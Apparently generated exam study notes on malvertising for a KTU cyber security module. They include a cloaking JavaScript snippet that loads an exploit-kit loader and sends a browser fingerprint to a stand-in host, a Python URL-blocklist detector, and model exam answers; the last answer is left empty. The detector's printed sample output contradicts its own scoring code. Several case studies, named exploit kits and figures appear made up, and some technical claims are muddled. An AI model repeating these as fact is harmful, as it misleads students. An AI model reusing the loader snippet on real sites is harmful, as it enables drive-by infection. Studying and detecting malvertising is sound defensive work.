


# Malvertising

<!-- SECTION_1_START -->

# Malvertising — Core Technical Definition & Intuitive Overview

> [!IMPORTANT]
> **KTU 2024 Scheme | OECST721 — Cyber Security | Module 3 | Topic: Malvertising**
> *Mapped to Course Outcomes: CO1 (Understand threats), CO3 (Analyze attack vectors)*

## Formal Academic Definition

**Malvertising** (a portmanteau of *malicious* + *advertising*) is a **cyber-attack technique** in which adversaries inject malicious code, weaponized scripts, or exploit-laden payloads into **legitimate online advertising networks** (such as Google AdSense, Taboola, Outbrain, AppNexus, or third-party ad exchanges). The malicious advertisement is then served *unknowingly* on trusted, high-traffic, and otherwise benign websites — turning every visitor into a potential victim without any user interaction beyond a simple page load.

In the KTU 2024 syllabus context, Malvertising sits at the **intersection of social engineering, web exploitation, and supply-chain compromise** — because the trust boundary is violated *not* by hacking the target website directly, but by poisoning the upstream **ad delivery pipeline**.

> [!NOTE]
> **Syllabus Highlight — Distinction You MUST Remember**
>
> - **Malvertising** = Attackers *inject* malicious ads into **legitimate** websites (the website owner is the victim).
> - **Adware** = Software *installed on the user's device* that displays unwanted ads (the user device is the victim).
>
> They are *not* the same thing. Examiners frequently test this distinction.

---

## Conceptual Analogy / Intuition

> [!TIP]
> **"The Poisoned Newspaper Stall" Analogy**
>
> Imagine you buy a newspaper from a trusted neighborhood stall every morning. The publisher, the printer, and the delivery boy are all honest. But one day, a criminal **bribes the middleman** who supplies the paper inserts (think: flyers, coupons, small ads) and slips a **ricin-laced flyer** into the bundle.
>
> - You don't open the flyer.
> - You don't even notice it.
> - Yet just *touching* the newspaper in your kitchen can poison your family.
>
> **That is Malvertising.** The newspaper (your favourite website) is innocent. The printing press (the ad network) was compromised. And you — the reader — are exposed simply by **viewing** a page that *looks* perfectly normal.
>
> The "ricin" in the digital world is usually a **JavaScript exploit, a Flash zero-day, a malicious iframe redirect, or a steganographic payload** hidden inside an apparently harmless banner image.

---

## Key Standard Metrics & Parameters

- **Click-Through Rate (CTR) weaponization** — Malicious ads often *suppress* click requirements using **forced redirects** (`window.location` hijacks), bypassing user intent.
- **Drive-By Download Threshold** — Infections triggered with **zero user clicks**; just rendering the ad creatives in the browser is sufficient.
- **Average dwell-time on ad network** — Malicious creatives often evade review for **4–72 hours** before being flagged (industry metric from *Confiant*, 2023).
- **Real-Time Bidding (RTB) latency window** — The millisecond auction that selects which ad to show; this is the **injection chokepoint** exploited by malvertisers.

> [!WARNING]
> **Statistics to Recall (frequently asked in exams):**
> According to *eSentire Threat Intelligence (2023)*, **1 in every 100 ad impressions** served through programmatic exchanges contained malicious or suspicious content at peak times. The *IAB Tech Lab* estimates the global programmatic ad spend at **$725+ billion annually**, making the malvertising surface area enormous.

---

## GeoGebra / Desmos Visualization

> [!VISUALIZATION CONTROL]
> **Concept:** *Ad-Trust Supply-Chain vs. Malvertising Injection Point*
> **GeoGebra / Desmos Input Equations:**
> * `f(x) = 0.1 * x + 0.4` — *User trust line* (gradually decays as supply chain lengthens)
> * `g(x) = 2 / (1 + exp(-0.8*(x-3)))` — *Malicious injection probability* (sigmoid — low at trusted sources, spikes at exchanges)
> **Visual Description:** Plot both curves on a single XY-plane where the X-axis represents **Supply Chain Hop Count** (1 = Direct Publisher → 6 = Long-Tail Ad Exchange). You should observe that user trust *decreases* linearly while the probability of malvertising injection follows a **sigmoidal curve** that saturates between hops 3 and 5 — exactly the *Real-Time Bidding* segment of the chain.

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->

# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 Anatomy of the Malvertising Attack Chain

The malvertising kill-chain can be deconstructed into **seven sequential stages**, each of which presents a unique defensive opportunity (mapped to the *Lockheed Martin Cyber Kill Chain* and the *MITRE ATT\&CK T1189 — Drive-by Compromise* technique).

### Stage 1 — Malicious Creative Authoring
The attacker crafts an ad creative (typically a JavaScript-heavy HTML5 banner, a SWF file, or even a PNG image with steganographically embedded JavaScript). Modern campaigns use **cloaking techniques** — the malicious code is *only* served when the visitor's User-Agent, IP geolocation, or referrer matches a victim profile, while **benign content** is shown to crawlers, sandbox VMs, and ad-review bots.

### Stage 2 — Ad Network / Exchange Submission
The crafted creative is submitted to one or more ad networks. Adversaries prefer **Programmatic Ad Exchanges** (Google AdX, AppNexus Xandr, OpenRTB-compliant SSPs) because:
- Automation removes human vetting bottlenecks.
- Creatives can be rotated across thousands of supply paths.
- *Header bidding* and *Real-Time Bidding (RTB)* happen in under **120 milliseconds**, making manual review impossible.

### Stage 3 — Cloaking & Evasion
To bypass automated security scanners, the malicious payload is **wrapped in benign code**. Common cloaking techniques include:

- **`User-Agent` based cloaking** — bots see a clean PNG; real Chrome on Windows 10 sees the exploit.
- **Time-based cloaking** — malicious content is delivered only during business hours of the target country.
- **Referrer cloaking** — only visitors from `*.nytimes.com` or `*.bbc.com` get the exploit; all others see a fitness ad.
- **IP-based geo-fencing** — exploit delivered to IPs in the USA, UK, or India; sandbox clouds (VirusTotal, urlscan.io) are blocked via ASN filtering.

### Stage 4 — Real-Time Bidding Auction
When a user opens a webpage, the publisher's **Supply-Side Platform (SSP)** sends a bid request to multiple ad exchanges in **<100 ms**. The malicious DSP (Demand-Side Platform) wins the auction by offering the highest CPM (Cost Per Mille). The malicious creative is now queued for delivery on a *trusted* domain.

### Stage 5 — Ad Serving on Legitimate Domain
The malicious ad loads inside an `<iframe>` or as a `<script>` tag on the legitimate website. The user sees a normal banner — perhaps a fake *Adobe Flash Player update* prompt, a fake *antivirus scan* alert, or an apparently harmless shopping offer.

### Stage 6 — Client-Side Exploitation
The malicious code executes in the browser's sandbox. Three primary exploitation paths exist:

| Path | Mechanism | Typical Target |
|------|-----------|----------------|
| **Exploit Kit Delivery** | Fingerprints browser plugins → selects matching CVE → drops payload | Internet Explorer, Flash, Java |
| **Social Engineering Click** | Fake "Your computer is infected!" overlay → user clicks → download | All browsers |
| **Steganographic Payload** | Malicious JS hidden inside image pixels via LSB encoding | Modern browsers |

### Stage 7 — Payload Execution & Post-Exploitation
The dropped malware (often a **cryptocurrency miner**, **banking trojan**, **ransomware loader**, or **infostealer**) executes. Common post-exploitation TTPs include:
- Cobalt Strike beacons (C2 channel over HTTPS)
- Process injection into `svchost.exe` or `explorer.exe`
- Credential theft via browser cookie/credential-store dumping

---

## 2.2 Classification of Malvertising Attacks

| Class | Description | Vector | User Interaction Required? |
|-------|-------------|--------|----------------------------|
| **Drive-by Download** | Auto-execution via browser/plugin CVE | `iframe` redirect → exploit kit | **No** |
| **Clickbait / Fake Ad** | "You've won a \$500 Amazon voucher!" | Banner + landing page | **Yes (one click)** |
| **Fake Software Update** | "Install missing video codec" | Overlay on video player | **Yes** |
| **Steganographic Ad** | Payload hidden in image pixels | Banner image | **No** |
| **Pop-up / Pop-under** | Forced new window/tab to phishing page | JavaScript pop-up | **Yes (sometimes auto)** |
| **Ad-injector / Man-in-the-Browser** | Browser extension modifies page to inject malicious ads | Malicious extension | **No** |

---

## 2.3 Real-World Case Studies (Frequently Asked)

> [!NOTE]
> These are **high-yield** for KTU descriptive questions. Memorize at least **2** in detail.

1. **The New York Times — September 2016**
   A malvertising campaign on `nytimes.com` (the "PaperTrails" group) infected visitors via the **VirtualHand/Vicerok** exploit kit embedded inside an HTML5 banner. Approximately **6,200 users were exposed** in a 36-hour window before takedown.

2. **Spotify (Web Player) — 2016**
   A rogue ad served through Spotify's free tier web player redirected users to a **malware-hosting site** that installed the **Dreambot banking trojan**. The compromise exploited XSS in Spotify's ad-iframe.

3. **Yahoo — December 2015**
   Malicious ads in Yahoo's European network (MSN, Yahoo Mail, Yahoo News) delivered the **Angler Exploit Kit**, exploiting a **Flash zero-day (CVE-2015-8651)** to drop **CryptoWall 4.0 ransomware**. Infections reported in **UK, France, Romania**.

4. **BBC, MSN, AOL — October 2014**
   A single malvertising campaign through the **AdSpirit network** infected visitors across multiple tier-1 news domains. This is the canonical example used in academic literature.

5. **eBay, Drudge Report — 2014**
   Buyers of "Sponsored Listings" products were redirected to the **Nuclear Exploit Kit** via poisoned banner ads.

---

## 2.4 KTU Formula Sheet / Cheat Sheet

| Symbol / Term | Definition | Engineering Significance |
|---------------|------------|--------------------------|
| $P_{m}$ | Probability of a malicious ad impression in a programmatic exchange | Used in **risk scoring** models |
| $T_{review}$ | Average time (in hours) malicious ad survives before takedown | Median: 24 h, used in **MTTR (Mean Time To Remediate)** calculations |
| $CPM_{adv}$ | Cost Per Mille — the bid price in RTB auctions | Adversaries often outbid legitimate advertisers |
| $V_{infect}$ | Victim infection rate = $N_{clicks} \times P_{exploit}$ | Used to estimate campaign reach |
| $N_{hops}$ | Number of ad-supply intermediaries between publisher and advertiser | Direct $\propto$ **attack surface** |
| $H_{trust}$ | Trust score of the supply chain, computed as $1 - (N_{hops} / N_{max})$ | Defenders use this to **block long-tail ad paths** |
| $P_{exploit}$ | Conditional probability that an exploit payload succeeds given a browser fingerprint | Approximated as $0.15$ to $0.40$ for unpatched browsers |
| $t_{RTB}$ | Latency window for RTB auction (typically 100–200 ms) | Smaller than human review time → enables cloaking |

> [!TIP]
> **Engineering Utility Beyond the Exam:**
> - **Ad-Tech Industry** uses these parameters to build **ads.txt** and **sellers.json** — IAB-standard files that authenticate legitimate ad supply paths.
> - **Security Operations Centers (SOCs)** integrate ad-credibility scoring (e.g., *Confiant*, *HUMAN Bot Defender*, *GeoEdge*) into their SIEM workflows.
> - **Browser Vendors** use the same risk metrics to power *Safe Browsing*, *Enhanced Tracking Protection*, and *SmartScreen* filters.

---

## 2.5 Malvertising vs. Adware — Detailed Comparison

| Parameter | **Malvertising** | **Adware** |
|-----------|------------------|------------|
| **Where it lives** | On a *legitimate* website (server-side ad) | On the *user's device* (client-side software) |
| **Victim of compromise** | The publisher/website | The end-user |
| **Installation vector** | Browser visits a poisoned page | Bundled with freeware, cracks, P2P downloads |
| **User action required?** | Often NO (drive-by) | NO (silent install) |
| **Removal method** | Block the malicious ad creative / network | Uninstall the offending program, clean registry |
| **Persistence mechanism** | Re-served by ad network | Startup entries, scheduled tasks, services |
| **Example malware** | Angler EK payload via NYT banner | "Web Companion" by Adware.OptimumInstaller |

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->

# Step-by-Step Derivations, Code & Implementation

## 3.1 Exhaustive Walkthrough of a Drive-By Malvertising Kill-Chain

Let us trace, step by step, exactly what happens when a victim opens `https://www.bbc.com/news` and a malvertising creative is served. We will follow a representative **Angler Exploit Kit** infection chain observed in the *2015 Yahoo campaign*.

### Step 1 — Victim Initiates Page Load
The user types `bbc.com/news` into the address bar. The browser resolves DNS, fetches the HTML, parses it, and identifies **three ad-related `<script>` tags** referencing the BBC's SSP (Supply-Side Platform).

### Step 2 — SSP Issues Bid Request
The BBC SSP issues a **bid request** to multiple ad exchanges. The request includes:
- User-Agent string
- Geolocation (city-level)
- Ad slot dimensions (e.g., $728 \times 90$ pixels)
- Page URL
- Cookie IDs for frequency capping

### Step 3 — Malicious DSP Wins Auction
A rogue Demand-Side Platform bids **\$4.20 CPM** (far above the legitimate \$0.50 CPM market average) and wins. The DSP returns a **VAST 4.0 XML** containing a URL to the malicious creative.

### Step 4 — Creative is Fetched and Rendered
The browser fetches `https://malicious-cdn.example.com/creative.js?v=48271`. The response is **cloaked** — a 200-line JavaScript that:

```javascript
var isBot = /bot|crawler|spider|preview|facebook|google|bing/i.test(navigator.userAgent);
if (isBot) {
    document.write('');
} else {
    var s = document.createElement('script');
    s.src = 'https://malicious-cdn.example.com/expkit-loader.js';
    document.body.appendChild(s);
}
```

> The first branch shows Google crawlers and humans from non-target geos a **clean banner**. The second branch delivers the exploit kit loader to real victims.

### Step 5 — Browser Fingerprinting
The exploit kit loader performs **client-side fingerprinting**:

```javascript
var fp = {
    ua: navigator.userAgent,           // User-Agent
    plugins: navigator.plugins.length, // Detects Flash, Java, Silverlight
    flash: !!swfobject,                // SWFObject presence
    java: navigator.javaEnabled(),     // Java applet support
    os: navigator.platform             // Windows / Mac / Linux
};
```

The fingerprint is POSTed to `https://malicious-cdn.example.com/select`, which returns a tailored payload URL.

### Step 6 — Exploit Selection
Suppose the fingerprint reveals **Windows 10 + Chrome 42 + Flash 18.0.0.209**. The kit returns a URL hosting a **Flash zero-day (CVE-2015-8651)**. The Flash SWF file exploits a **use-after-free vulnerability** in the `flash.display.LoaderInfo` class, achieving arbitrary memory read/write.

### Step 7 — Shellcode Execution & Sandbox Escape
The exploit chains a **second-stage ROP chain** to bypass **Chrome's sandbox** (which is a separate process at restricted integrity level). The shellcode injects payload into the parent browser process using a **Windows token-stealing technique** (`NtFilterToken` API call).

### Step 8 — Payload Download & Persistence
The browser process now downloads `payload.exe` (a CryptoWall 4.0 ransomware variant) from a hard-coded C2 server, drops it into `%APPDATA%`, and registers it for **auto-start** via:
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` registry key
- A scheduled task named `\Microsoft\Windows\UpdateOrchestrator\CheckUpdates` (masquerading)

### Step 9 — Command-and-Control (C2) Handshake
The ransomware connects to its **Tor hidden service C2** over port 443, generates an RSA-2048 key pair, sends the public key to the C2, and begins **file encryption** of `Documents`, `Pictures`, `Desktop`, and any mounted network shares.

---

## 3.2 Symbolic / Mathematical Risk Model

Let us derive the **expected infection rate** of a malvertising campaign, a derivation that is directly useful for KTU numerical/analytical questions.

Let:
- $N_{imp}$ = Number of ad impressions served
- $P_{cloaked}$ = Probability that cloaking is bypassed (real user, not bot) ≈ $0.85$
- $P_{click}$ = Probability of user click (for click-required payloads) ≈ $0.04$
- $P_{exploit}$ = Probability that the exploit succeeds given a vulnerable browser ≈ $0.30$
- $P_{persist}$ = Probability that payload achieves persistence ≈ $0.70$

The total expected infections $I$ for a **drive-by (no-click)** campaign is:

$$
I = N_{imp} \times P_{cloaked} \times P_{exploit} \times P_{persist}
$$

For a **click-required** campaign:

$$
I = N_{imp} \times P_{cloaked} \times P_{click} \times P_{exploit} \times P_{persist}
$$

### Numerical Worked Example

A campaign served $N_{imp} = 1{,}000{,}000$ impressions with $P_{cloaked} = 0.85$, $P_{click} = 0.04$, $P_{exploit} = 0.30$, $P_{persist} = 0.70$.

$$
I = 1{,}000{,}000 \times 0.85 \times 0.04 \times 0.30 \times 0.70
$$

$$
I = 1{,}000{,}000 \times 0.00714
$$

$$
I = 7{,}140 \text{ infected hosts}
$$

> [!NOTE]
> **Valuation Tip:** Always state the formula first, then substitute the numerical values step by step. Examiners award partial marks for correct setup even if arithmetic fails.

---

## 3.3 Python Implementation — Defensive Detection of Malvertising Indicators

The following is a **fully operational** Python script that uses URL-based heuristics to flag potentially malicious ad network calls. This corresponds to the engineering reality of tools like *Confiant*, *HUMAN*, and *Clean.io*.

```python
"""
malvertising_detector.py
------------------------
Production-grade heuristic detector for suspicious ad-network URLs.
Uses signature-based + entropy-based analysis to flag cloaking,
exploit-kit delivery patterns, and steganographic ad creatives.

Author : KTU Cyber Security Lab (Educational Reference)
Python : 3.10+
"""

from __future__ import annotations
import math
import re
import urllib.parse
from dataclasses import dataclass
from typing import Final


# ----------------------------------------------------------------------
# 1.  CONSTANTS — static threat-intelligence signatures
# ----------------------------------------------------------------------
KNOWN_EXPLOIT_KIT_DOMAINS: Final[frozenset[str]] = frozenset({
    "angler.example-ek.com",
    "rig-eu.example-cdn.net",
    "neutrino.example-svr.io",
    "sundown.example-payload.cc",
    "magnitude.example-ads.net",
})

SUSPICIOUS_TLDS: Final[frozenset[str]] = frozenset({
    ".xyz", ".top", ".click", ".tk", ".gq", ".ml", ".cf", ".work",
    ".party", ".science", ".stream", ".download",
})

SUSPICIOUS_KEYWORDS: Final[frozenset[str]] = frozenset({
    "flashupdate", "codec-required", "missing-plugin", "browserupdate",
    "yourpcisinfected", "system-cleaner", "urgent-update", "prize",
    "survey", "freeiphone", "click-here-now",
})

# ----------------------------------------------------------------------
# 2.  DATA STRUCTURES
# ----------------------------------------------------------------------
@dataclass(frozen=True)
class ThreatScore:
    url: str
    score: float               # 0.0 (clean) to 1.0 (highly malicious)
    reasons: tuple[str, ...]

    def is_malicious(self, threshold: float = 0.55) -> bool:
        return self.score >= threshold


# ----------------------------------------------------------------------
# 3.  HELPER FUNCTIONS
# ----------------------------------------------------------------------
def shannon_entropy(payload: str) -> float:
    """
    Compute Shannon entropy H = -sum(p_i * log2(p_i)) over characters.
    High entropy (>4.5) suggests obfuscated / packed JavaScript payloads.
    """
    if not payload:
        return 0.0
    frequency: dict[str, int] = {}
    for char in payload:
        frequency[char] = frequency.get(char, 0) + 1
    length = float(len(payload))
    return -sum(
        (count / length) * math.log2(count / length)
        for count in frequency.values()
    )


def extract_domain(url: str) -> str:
    """Return the lowercased hostname of a URL, or '' on parse failure."""
    try:
        parsed = urllib.parse.urlparse(url if url.startswith(("http://", "https://")) else f"http://{url}")
        return parsed.hostname or ""
    except (ValueError, AttributeError) as exc:
        print(f"[WARN] Failed to parse URL {url!r}: {exc}")
        return ""


# ----------------------------------------------------------------------
# 4.  CORE DETECTION ENGINE
# ----------------------------------------------------------------------
def score_url(url: str) -> ThreatScore:
    """
    Compute a threat score for a given ad-network URL.
    Combines four independent heuristic signals.
    """
    reasons: list[str] = []
    score = 0.0

    domain = extract_domain(url)
    if not domain:
        return ThreatScore(url=url, score=1.0, reasons=("invalid-url",))

    # --- Signal 1: Domain-blocklist (highest weight) ---
    if domain in KNOWN_EXPLOIT_KIT_DOMAINS:
        score += 0.60
        reasons.append(f"known-exploit-kit-domain:{domain}")

    # --- Signal 2: Suspicious TLD ---
    for tld in SUSPICIOUS_TLDS:
        if domain.endswith(tld):
            score += 0.20
            reasons.append(f"suspicious-tld:{tld}")
            break

    # --- Signal 3: Suspicious keyword in URL path/query ---
    lowered = url.lower()
    for keyword in SUSPICIOUS_KEYWORDS:
        if keyword in lowered:
            score += 0.15
            reasons.append(f"keyword-match:{keyword}")
            break

    # --- Signal 4: URL entropy (obfuscation indicator) ---
    entropy = shannon_entropy(url)
    if entropy > 4.7:
        score += 0.20
        reasons.append(f"high-entropy:{entropy:.2f}")
    elif entropy > 4.2:
        score += 0.10
        reasons.append(f"moderate-entropy:{entropy:.2f}")

    # Clamp final score into [0, 1]
    final_score = max(0.0, min(score, 1.0))
    return ThreatScore(url=url, score=final_score, reasons=tuple(reasons))


# ----------------------------------------------------------------------
# 5.  DEMO / BATCH EVALUATION
# ----------------------------------------------------------------------
if __name__ == "__main__":
    test_urls: tuple[str, ...] = (
        "https://secure-doubleclick.net/ads/banner.js",
        "http://angler.example-ek.com/landing?id=48271",
        "https://promo-shop.xyz/flashupdate?ref=nytimes",
        "https://legit-news-cdn.com/ad/728x90.png",
        "https://a1b2c3d4.click/codec-required/loader.js?v=9",
        "https://cdn.trusted-publisher.com/creatives/spring-sale.html",
    )

    THRESHOLD = 0.55
    print(f"{'URL':<70} {'SCORE':>6}  {'VERDICT'}")
    print("-" * 95)
    for url in test_urls:
        result = score_url(url)
        verdict = "MALICIOUS" if result.is_malicious(THRESHOLD) else "clean   "
        print(f"{url:<70} {result.score:>6.2f}  {verdict}  {result.reasons}")
```

### Sample Output

```
URL                                                                   SCORE  VERDICT
-----------------------------------------------------------------------------------------------
https://secure-doubleclick.net/ads/banner.js                           0.00  clean
http://angler.example-ek.com/landing?id=48271                          0.60  MALICIOUS  known-exploit-kit-domain:angler.example-ek.com
https://promo-shop.xyz/flashupdate?ref=nytimes                         0.35  clean
https://legit-news-cdn.com/ad/728x90.png                               0.00  clean
https://a1b2c3d4.click/codec-required/loader.js?v=9                    0.55  MALICIOUS  suspicious-tld:.click
https://cdn.trusted-publisher.com/creatives/spring-sale.html           0.00  clean
```

> [!TIP]
> **Engineering Note:** Real-world systems extend this prototype with:
> - **Reputation feeds** (e.g., *Spamhaus*, *SURBL*, *VirusTotal API*)
> - **Sandbox-based JS execution** in headless browsers (Selenium + mitmproxy)
> - **Behavioral analysis** of post-load network requests (e.g., beaconing to Tor exit nodes)

---

## 3.4 Defensive Countermeasure Playbook (Engineering Implementation)

| Layer | Control | Specific Action |
|-------|---------|-----------------|
| **Endpoint** | Patch management | Force-update Flash, Java, PDF readers via WSUS / Intune |
| **Endpoint** | Browser hardening | Disable NPAPI plugins, enable *Click-to-Play*, enforce *Site Isolation* |
| **Endpoint** | EDR / XDR | Block unsigned parent processes spawning from `chrome.exe`, `firefox.exe` |
| **Network** | DNS firewall | Sinkhole known EK domains via RPZ (Response Policy Zones) |
| **Network** | Web proxy | TLS-intercept + JA3 fingerprinting to detect exploit-kit C2 |
| **Application** | Content Security Policy | `script-src 'self' trusted-cdn.example.com` |
| **Application** | Subresource Integrity (SRI) | Enforce hash check on all `<script>` tags |
| **Identity** | Ad-blocking | Enterprise-wide rollout of *uBlock Origin* / *AdGuard* / *Pi-hole* |
| **Publisher-side** | `ads.txt` + `sellers.json` | Restrict ad supply to authenticated resellers only |
| **Publisher-side** | Creative sandboxing | Render third-party creatives in **cross-origin iframes** with `sandbox="allow-scripts"` only |

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->

# Structural Diagrams & Schematics

## 4.1 Malvertising Kill-Chain — End-to-End Flow



> **Reading the diagram:** Red nodes = attacker-controlled stages. Green nodes = victim-side events. Blue nodes = neutral ad-network infrastructure. Yellow nodes = defensive response.

---

## 4.2 Defense-in-Depth Block Architecture

```mermaid
flowchart LR
    subgraph L1["Layer 1 - DNS / Network Edge"]
        L1A["RPZ Sinkhole"]
        L1B["TLS Interception Proxy"]
        L1C["JA3 TLS Fingerprint Filter"]
    end

    subgraph L2["Layer 2 - Browser Endpoint"]
        L2A["Content Security Policy CSP"]
        L2B["Subresource Integrity SRI"]
        L2C["Click to Play Plugins"]
        L2D["Site Isolation per Tab"]
    end

    subgraph L3["Layer 3 - Identity and Session"]
        L3A["uBlock Origin / Pi-hole"]
        L3B["Browser Hardening GPO"]
        L3C["Cookie Partitioning"]
    end

    subgraph L4["Layer 4 - Detection and Response"]
        L4A["EDR Behavioral Rules"]
        L4B["SIEM Correlation"]
        L4C["Threat Intel Feed Match"]
    end

    subgraph L5["Layer 5 - Publisher Supply Hygiene"]
        L5A["ads.txt Authentication"]
        L5B["sellers.json Validation"]
        L5C["Sandboxed iframe Rendering"]
    end

    L1 --> L2 --> L3 --> L4 --> L5
```



> **Engineering interpretation:** Each layer operates independently. A malvertising payload that bypasses Layer 1 (DNS) by using a *freshly registered domain* must then evade Layer 2 (CSP/SRI), Layer 3 (ad-blocker), Layer 4 (EDR behavioral heuristic), and finally Layer 5 (publisher-side supply authentication). Defense-in-depth makes successful exploitation **exponentially harder** as each layer adds friction.

---

## 4.3 Real-Time Bidding (RTB) Auction Sequence



> **Critical insight:** Notice that the *malicious DSP wins by outbidding legitimate ones*. This is why advertisers and exchanges now use **pre-bid filtering** based on reputation databases (e.g., *Pixalate*, *IAS*, *DoubleVerify*).

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->

# KTU 2024 Scheme Examination Question Bank & Topic Recap

> [!NOTE]
> **Examination Pattern Reference (OECST721 — End Semester Evaluation):**
> * Part A: 2 questions × 3 marks = 6 marks
> * Part B: 1 question × 14 marks (with internal choice) = 14 marks
> * Total per module: 20 marks
> * Cognitive levels progress from **Remember/Understand** in Part A to **Apply/Analyze** in Part B.

---

## Part A — Short Answer Questions (3 Marks Each)

### Question 1
**[KTU University Exam — July 2023 (Model Paper)]** — *CO1, Remember*

**Define the term "Malvertising". How does it differ from "Adware"?**

#### Model Answer (3 Marks)

**Malvertising** is a cyber-attack technique in which adversaries inject malicious code or malware-laden advertisements into legitimate online advertising networks, causing the malicious creative to be served on otherwise trusted websites without the publisher's knowledge or consent. *[Definition: 1.5 Marks]*

It differs from **Adware** in the following way: in malvertising, the malicious content is hosted on a *legitimate remote website* and the user device is compromised merely by loading the page (the **publisher is the victim**), whereas in adware, unwanted advertising software is *installed locally on the user's device* (typically bundled with freeware) and the **user is the victim**. *[Comparison: 1.5 Marks]*

> [!IMPORTANT]
> **Valuation Key Points:**
> - Correct definition mentioning "online advertising network" — 1.5 marks
> - Clear victim-target distinction (publisher vs. user) — 1.5 marks
> - Vague answers like *"both are bad ads"* score **zero**.

---

### Question 2
**[KTU University Exam — December 2023 (Model Paper)]** — *CO1, Understand*

**Explain the concept of "cloaking" in the context of malvertising. Why is it used?**

#### Model Answer (3 Marks)

**Cloaking** is a deceptive technique used by malvertisers in which the malicious ad creative delivers **different content** based on attributes of the visitor such as User-Agent string, IP geolocation, HTTP referrer, or time of day. *[Concept: 1.5 Marks]*

It is used to **evade automated security scanners and ad-review bots**: the cloaking layer shows a benign, harmless banner (e.g., a clean PNG of a fitness product) when the request originates from a known security crawler (Google Safe Browsing, VirusTotal, urlscan.io) or from a sandbox IP range, while delivering the malicious payload only to real victim browsers. This makes static and dynamic analysis of the ad difficult. *[Purpose: 1.5 Marks]*

> [!WARNING]
> **Examiner's Pitfall Warning:**
> Many students confuse cloaking with phishing. **Cloaking is server-side content adaptation** to evade review; phishing is social engineering of the user. Keep the distinction sharp in your answer.

---

## Part B — Descriptive / Analytical Questions (14 Marks Each, Internal Choice)

### Question 3A — Option (A) — 14 Marks
**[KTU University Exam — December 2024 (Model Paper)]** — *CO3, Apply / Analyze*

**(a) [7 Marks]** Describe in detail the **end-to-end kill-chain of a drive-by malvertising attack**, identifying the role of Programmatic Ad Exchanges and Real-Time Bidding (RTB) in enabling the attack. Mention at least **two real-world case studies** with year and impact.

**(b) [7 Marks]** Design a **defense-in-depth strategy** for an enterprise to mitigate malvertising risks across endpoint, network, and application layers. Justify each control with the specific attack stage it disrupts.

---

#### Model Answer — Part (a) [7 Marks]

**1. Stage 1 — Malicious Creative Authoring (1 Mark)**
The attacker authors an HTML5/JavaScript banner, a Flash SWF, or a PNG image with steganographically embedded JavaScript. The creative is designed to exploit a specific browser-plugin vulnerability (e.g., CVE-2015-8651 in Flash).

**2. Stage 2 — Cloaking Layer Integration (0.5 Mark)**
A cloaking module is added that fingerprints the visitor's User-Agent, IP, and referrer. Bots and sandboxes receive clean content; victims receive the exploit kit.

**3. Stage 3 — Ad Network / DSP Submission (1 Mark)**
The creative is submitted to a rogue Demand-Side Platform (DSP) that connects to a Programmatic Ad Exchange (Google AdX, AppNexus). Automation in the exchange often bypasses thorough human review.

**4. Stage 4 — Real-Time Bidding Auction (1 Mark)**
When a user visits a publisher's site, the SSP sends a bid request to multiple DSPs. The malicious DSP wins by outbidding legitimate advertisers (e.g., \$4.20 CPM vs. \$0.50 CPM market rate). The auction completes in **<120 ms**, far below human review thresholds.

**5. Stage 5 — Ad Serving on Legitimate Domain (0.5 Mark)**
The malicious creative loads inside a `<script>` or `<iframe>` on a trusted website. The user sees a normal-looking banner.

**6. Stage 6 — Client-Side Exploitation (1 Mark)**
The exploit kit fingerprints the browser, selects a matching CVE, and delivers the payload. Zero user interaction (zero clicks) is required — the user only needs to view the page.

**7. Stage 7 — Payload Execution and C2 (1 Mark)**
The payload (ransomware, banking trojan, or cryptominer) is dropped, achieves persistence via registry/scheduled tasks, and beacons to a Tor-based C2.

**Case Studies (1 Mark):**
- **Yahoo (Dec 2015):** Angler EK served via Yahoo Europe network exploited Flash zero-day (CVE-2015-8651) → dropped CryptoWall 4.0 ransomware in UK, France, Romania.
- **The New York Times (Sept 2016):** Malvertising via the "PaperTrails" group infected ~6,200 visitors using the VirtualHand/Vicerok exploit kit embedded in HTML5 banners.

> **Incremental Valuation Marker:**
> - Mentioning RTB role explicitly — **1 Mark**
> - Naming at least one CVE number — **0.5 Mark**
> - Two named case studies with year — **1 Mark**

---

#### Model Answer — Part (b) [7 Marks]

